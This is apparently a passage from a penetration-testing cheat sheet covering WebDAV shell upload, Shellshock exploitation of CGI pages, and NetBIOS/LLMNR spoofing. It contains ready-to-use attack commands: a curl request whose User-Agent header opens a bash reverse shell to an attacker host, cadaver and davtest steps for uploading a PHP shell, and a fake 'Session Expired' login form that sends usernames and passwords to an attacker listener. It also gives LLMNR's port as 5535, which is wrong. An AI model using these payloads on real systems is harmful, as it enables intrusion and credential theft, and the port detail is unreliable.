 After connecting, issue the below command

```
dav:/webdav-directory/> put /file.php
```

\[webdav-directory] is the directory of the webdav in the destination web server. **Examples** The below command tests the WebDAV-enabled server if it's vulnerable for command execution through file upload vulnerabilities

```
davtest --url http://ip
```

If the webdav is vulnerable, we can use the below tool to login and upload shell

```
cadaver http://ip/dav/ put /tmp/shell.php
```

#### CGI Web Apps-Testing for shellshock vulnerability

We look for a page that points to a .cgi file and we test with the following curl command.

```
root@kali:curl -k -H "user-agent: () { :; }; bash -i >& /dev/tcp/[attacker-ip]/[port] 0>&1" https://ip/session_login.cgi
```

Alternatively we can use burpsuite and intercept the request replacing the user agent with the above command or the below one

```
() { :; }; bash -i >& /dev/tcp/[attacker-ip]/[port] 0>&1" https://ip/session_login.cgi
```

#### Malicious Login form to send details to a listener

\[script name: malicious-form.html]

```
<div style="position: absolute; left: 0px; top: 0px; width: 800px; height: 600px; z-index: 1000;
background-color:white;">
Session Expired, Please Login:<br>
<form name="login" action="http://attackerIP:port">
<table>
<tr><td>Username:</td><td><input type="text" name="uname"/></td></tr>
<tr><td>Password:</td><td><input type="password" name="pw"/></td></tr>
</table>
<input type="submit" value="Login"/>
</form>
</div>
```

### Attacking Network Protocols

#### NetBIOS

NetBIOS is commonly used for file sharing, but many other services rely on the protocol as well. When Windows systems need to resolve the IP address for a hostname it uses The NetBIOS name service (NBNS), first via Link Local Multicast Name Resolution (LLMNR) queries and then via NetBIOS Name Service (NBT-NS) queries beside the hosts file, local DNS cache and a DNS server. Link Local Multicast Name Resolution (LLMNR) is the first service that a Windows system tries if it cannot resolve a host via DNS. LLMNR queries are sent via port 5535 as UDP traffic and use a multicast address of 224.0.0.252 for IPv4 traffic. !\[\[netbios-1.png]] **SMB Spoofing** One of the most common ways to attack NetBIOS is to intercept the queries. This could allow you to capture hashes and other sensitive details and use them for later attacks. This can be done using Metasploit and Responder. In Metasploit we use the below module
